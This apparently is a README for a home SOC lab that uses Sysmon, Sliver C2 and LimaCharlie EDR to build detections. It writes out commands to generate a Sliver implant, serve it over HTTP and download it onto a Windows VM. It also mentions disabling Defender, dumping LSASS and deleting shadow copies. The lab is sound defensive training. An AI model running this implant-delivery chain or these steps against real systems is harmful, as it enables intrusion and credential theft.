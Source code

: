 # SOC-Analyst-Lab

## Objective

To simulate real-world SOC (Security Operations Center) scenarios and gain hands-on experience in detecting and responding to cyber threats. The primary focus was to ingest and analyze logs within an Endpoint Detection and Response (EDR) system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen my understanding of network security, attack patterns, and defensive strategies.

### Skills Learned

- Setting up a virtual SOC environment.
- Configuring EDR agents and logging tools.
- Simulating adversarial attacks (e.g., dumping LSASS).
- Crafting detection and response rules.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Automating malware detection and blocking ransomware activity.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used
- VMware Workstation Pro: For setting up Linux and Windows virtual machines.
- Sysmon: Provides detailed Windows telemetry.
- Sliver C2: Command and Control server for testing adversarial scenarios.
- LimaCharlie EDR: Endpoint Detection and Response for telemetry and automated rules.

## Steps
After diving into a few blog posts on how to become a SOC analyst, I set up my own virtual lab, following the steps from Eric Capuano’s guide. It was quite the process but worth the effort for hands-on experience in cybersecurity.

# **1. Setting up the Lab Environment:**
I started by setting up two virtual machines (VMs), one for Windows and another for Linux, using VMware. This is where I spent time configuring both, including setting static IPs and installing Sysmon on the Windows VM for granular logging (Sysmon really helps in detecting subtle activity). I disabled Windows Defender through the Group Policy Editor and registry tweaks to make sure nothing interfered with my attack scenarios. 

a. Download Sysmon with the following command.
- [Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip]

b. Unzip Sysmon.zip
- [Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon]

c. Download SwiftOnSecurity’s Sysmon config.
- [Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml]

d. Install Sysmon with Swift’s config.
- [C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml]

# **2. Command and Control (C2) Setup:**
Next, I set up a Sliver Command and Control (C2) server on the Linux VM. Once it was running, I generated a C2 payload and executed it on the Windows VM via PowerShell. It was exciting when the session checked back into the Sliver server! At this point, I could execute commands on the target machine, including whoami and netstat to gather information about the compromised system.

e. Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.
- [# Download Sliver Linux server binary
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
#Make it executable
chmod +x /usr/local/bin/sliver-server
#install mingw-w64 for additional capabilities
apt install -y mingw-w64]

f. Launch Sliver server
- [sliver-server]

g. Generate our first C2 session payload
- [generate --http [Linux_VM_IP] --save /opt/sliver]

h. Confirm the new implant configuration
- [implants]

**To easily download the C2 payload from the Linux VM to the Windows VM, let’s use a little python trick that spins up a temporary web server.**
- [python3 -m http.server 80]

i. Now run the following command to download your C2 payload from the Linux VM to the Windows VM, swapping your own Linux VM IP [Linux_VM_IP] and the name of the payload we generated in Sliver [payload_name] a few steps prior.
- [IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe]

# **3. Simulating Attacks:**
I took it a step further by simulating adversarial activities like dumping the lsass.exe process, a common technique for stealing credentials. Using LimaCharlie’s EDR platform, I could see the related events in real-time and learned how to craft custom detection rules based on sensitive processes like lsass.exe. I even created a rule to trigger alerts for these actions and to block them in the future.

# **4. Detection and Response Automation:**
Once the basics were working, I moved on to automating detection using YARA rules and crafted response actions in LimaCharlie. For example, I set up a rule to scan newly downloaded .exe files and automatically alert or quarantine them if flagged. I also played with blocking shadow copy deletion commands (used by ransomware) by building detection logic that terminates the offending process.

# **5. Reflection:**
Setting this lab up was not only fun but really highlighted the workflow a SOC analyst would go through. The importance of detection tuning, understanding baseline behavior, and working with EDR platforms became clear. Now, I feel more confident exploring adversary techniques and crafting detections.
After learning to detect attacks, I took things a step further by creating rules to block ransomware-like activities, such as the deletion of volume shadow copies. I built a custom Detection and Response (D&R) rule using LimaCharlie to identify and terminate the parent process whenever a command like vssadmin delete shadows /all is executed. By rerunning the attack and testing the rule, I was able to successfully block the process, further enhancing the defenses of my virtual SOC environment.

For anyone interested in SOC work, this series of blog posts is a great place to start!

If you're curious, you can follow the same steps through these blog links:

- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part">Part 1 </a>
- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-ea2">Part 2 </a>
- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-77e">Part 3 </a>
